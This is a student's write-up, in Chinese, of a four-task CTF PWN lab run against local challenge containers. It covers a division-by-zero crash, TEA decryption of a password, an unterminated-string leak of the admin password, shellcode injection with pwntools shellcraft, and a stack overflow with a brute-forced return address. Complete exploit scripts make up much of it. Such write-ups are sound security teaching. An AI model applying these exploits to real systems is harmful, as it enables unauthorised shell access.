 # CTF101 PWN Lab1

## 3240102120

### Task1

nocrash。这个题目比较简单。观察可以发现这个程序大概是希望把一个数进行进制转换，但是采用了自定义的`pow`，且后面进制转换语句里面出现了`j=a/pow(b,i-1)`这句，这样，如果b=0，进入这一句时a就会除0，从而爆破。因此连接容器后只需要输入任意数+0即可：

![alt text](image-7.png)

拿到flag: `AAA{pr0GraM_C4n_ea5ilY_crAsH}`

### Task2

loginme。这个题分两部分，一个是user一个是admin。前者感觉更像是misc的题（或者说crypto？），因为已经给定了VERIFY和KEY，并且根据源码是进行了Tea加密，所以可以直接上python脚本解密user密码：

```python
from struct import unpack, pack

VERIFY = b"\x27\x85\x56\x4a\xb2\x29\xe7\xf1\xa6\xc0\xab\xd7\xd6\x82\xb8\x1b\x4c\x43\xb0\x33\x0d\xb2\xbe\xb8\x10\x7a\x73\x30\x0a\xf3\xff\x59"
KEY = b"\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa"
plaintext = b""
def decode(block):
    v0, v1 = unpack("<2I", block)
    k = unpack("<4I", KEY)
    delta = 0x9e3779b9
    sum = 0xC6EF3720
    for _ in range(32):
        v1 = (v1 - (((v0 << 4) + k[2]) ^ (v0 + sum) ^ ((v0 >> 5) + k[3]))) & 0xFFFFFFFF
        v0 = (v0 - (((v1 << 4) + k[0]) ^ (v1 + sum) ^ ((v1 >> 5) + k[1]))) & 0xFFFFFFFF
        sum = (sum - delta) & 0xFFFFFFFF
    return pack("<2I", v0, v1)
plaintext=[decode(VERIFY[i:i+8]) for i in range(0, len(VERIFY), 8)]
print("".join([x.decode() for x in plaintext]))
```

得到user的密码`I_am_very_very_strong_password!!`，长度为31。而源码中会把\n当作0处理，因此总长度为32。于是nc之后输入user、32、上述密码即可得到flag1：`flag1: AAA{Oh_D1rTy_sta`

![alt text](image-8.png)

再破admin的密码。admin的密码会读入password_verify然后验证password_verify和password是否相同。之后的wrong_password区会输出用户输入的password。但是是使用%s方式输出，因此只要不到\0就会持续输出，而username、password和password_verify是相邻地址，因此只需要构造一个非\0结尾的密码即可溢出到password_verify，另外还需要使username填满32位，所以username要构造admin\x00+AAAAA...到32，密码则填充32个B：

```python
from pwn import *

context.log_level = 'debug'
p = remote('127.0.0.1', 10045)
payload = b'admin\x00' + b'A' * (32 - len(payload))
p.sendlineafter('username\n', payload)
p.sendlineafter('length of your password\n', b'32')
p.send(b'B' * 32)
p.interactive()
```

这样，就能在终端得到admin的密码

![alt text](image-9.png)

然后只要interact即可拿到shell，执行`ls -a`发现目录下有`flag2`，`cat flag2`拿到第二段flag：

![alt text](image-10.png)

得到最终flag: `AAA{Oh_D1rTy_staCK_Ne3d_C1a4n}`

### Task3

这个题比较综合了，首先是要完成delegate task，看源码是要直接写进内存的，所以要提前编译成字节传入，这个不得不借助python了：

```python
from pwn import *
context.arch = 'amd64'

p = remote('127.0.0.1', 12345)

opcode=["add", "sub", "and", "or", "xor"]
codes=[asm(f"mov rax, rdi; {i} rax, rsi; ret") for i in opcode]
for index in range(5):
    p.recvuntil(f"{opcode[index].upper()}\n")
    p.send(codes[index].ljust(0x100, b'\x90'))  # padding 到 0x100
    

    
try:
    print(p.recv(timeout=2).decode())
except:
    print("!!!crash!!!")
p.close()


```

这里是将rdi和rsi两个寄存器做opcode，得到结果存入rax然后返回。每次程序都会给定操作的大写，所以只要收到操作大写为止之后发送数据即可，以下是输出：

```console
alabtnt@AlabTNTMAGIC:/mnt/d/ctf$ python3 injectme.py
[+] Opening connection to 127.0.0.1 on port 12345: Done
/mnt/d/ctf/injectme.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil(f"{opcode[index].upper()}\n")
Soooooooo wonderful, here is your first part of flag:
AAA{SheL1c0de_T0
[*] Closed connection to 127.0.0.1 port 12345
```

于是得到了第一段flag `AAA{SheL1c0de_T0`

接下来完成第二段。shellcode的学习比较简单，原理是通过数据溢出使机器码得以通过漏洞而在目标服务上执行，进而获得shell或者越权sudo。编写方法就是利用漏洞压入提前写好的汇编的机器码。然后完成远程shell。

这里遇到了一点困难，根据pwn的网上教程指引，应该用shellcraft就能自动获得写好的shellcode，但是虽然获得了EOF，但是会出现no-reaction的情况：

![alt text](image-11.png)

这个问题有点费解。不过感觉应该是因为五段都过了直接流掉了。试试从第一个delegate就注入shellcode：

```python
from pwn import *
context.arch = 'amd64'

p = remote('127.0.0.1', 12345)
code=shellcraft.sh()
p.send(asm(code).ljust(0x100, b'\x90'))
p.interactive()
```

于是得到了shell并且拿到了flag（

![alt text](image-15.png)

得到flag: `AAA{SheL1c0de_T0_9E7_All_F1ag5}`

（啊呀，气死我哩，花了两个小时尝试怎么注入成功，郁郁睡觉，早上起来还用AI帮我写了个脚本，也不好使。晚上吃饭灵光乍现根本不回答问题直接注入结果就直接拿到shell了）

### Task4

flag:`AAA{R37_t0_guEs5_shE1Lc0d3_poS}`

这个拿的太顺了所以报告还没写先把flag端上来

题目大概意思就是要stack overflow，但是跳转地址是0x20000+MRND是环境变量，好在MRND就八个，可以爆，所以写这么个程序

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'error'

offset = 72
code = asm("""
    mov rdi, 1
    lea rsi, [rip+ok]
    mov rdx, 3
    mov rax, 1
    syscall
    mov eax, 60
    xor edi, edi
    syscall
ok:
    .ascii "OK\\n"
""")

for i in range(8):
    try:
        addr=0x20000+i*0x1000
        p = remote('127.0.0.1', 12345)
        p.sendafter("your name: ", code)
        payload = b"A" * offset + p64(addr)
        p.sendlineafter("overflow me~", payload)
        res = p.recv()
        if b"OK" in res:
            print(f"got at {hex(addr)}")
            break
        p.close()
    except Exception as e:
        print(i,e)

```

执行之后可以输出got at偏移地址，这里发现偏移地址是+5，所以可以直接写爆破：

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

offset = 72
code = asm(shellcraft.sh())

addr = 0x25000

p = remote('127.0.0.1', 12345)

p.sendafter("your name: ", code)
payload = b"A" * offset + p64(addr)
p.sendlineafter("overflow me~", payload)
p.interactive()
```

然后就能拿到shell了，再`ls -a` `cat flag`小连招直接送走



